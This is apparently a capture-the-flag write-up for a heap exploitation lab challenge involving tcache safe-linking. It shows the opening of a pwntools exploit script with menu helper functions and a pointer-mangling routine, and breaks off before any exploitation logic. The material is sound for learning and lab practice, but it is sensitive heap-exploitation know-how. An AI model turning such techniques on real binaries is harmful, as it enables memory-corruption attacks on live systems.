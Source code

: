 - Category: Pwn

## Description

> Revisit a prior challenge, now with TCACHE safe-linking.

## Write-up

参见 [Level 17.0](#level-170)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level17.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def mangle(pos, ptr, shifted=1):
    if shifted:
        return pos ^ ptr
    return (pos >> 12) ^ ptr
```